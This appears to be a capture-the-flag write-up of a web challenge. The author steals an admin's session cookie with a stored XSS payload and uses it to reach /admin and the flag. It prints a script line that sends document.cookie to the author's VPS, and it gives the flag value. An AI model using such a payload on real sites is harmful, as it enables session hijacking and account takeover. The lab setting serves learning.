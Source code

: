 # Star Wars

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/5ff560df-35ba-4b8f-b713-2508a4a03b06)

For this website, we can signup for an acccount and then log in. When we do, we see we can post comments and it says that the admin will review it (smells like XSS).

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/e3a9f5e4-e037-4d93-ad78-4acfc222e708)

I used this XSS payload to callback to my VPS:

```javascript
<script type="text/javascript">document.location="http://<vpsip>:1337/?c="+document.cookie;</script>
```

The page reloads right away so we get hits from ourselves but one of them is the admin:

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/77ffc0b5-1647-45d9-8384-6c8004a36074)

This is confirmed by ID 1 after decoding it with flask-unsign. We can now use this cookie and go on the standard `/admin` endpoint. This was an educated guess for me but it can easily be discovered with some quick fuzzing.

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/b211d5c0-a700-4979-b8d9-cb5a601ba9d9)

flag{a538c88890d45a382e44dfd00296a99b}

PS: I'm not sure why this was classes as Medium when Marmalade was originally classes as Easy. Such is life.

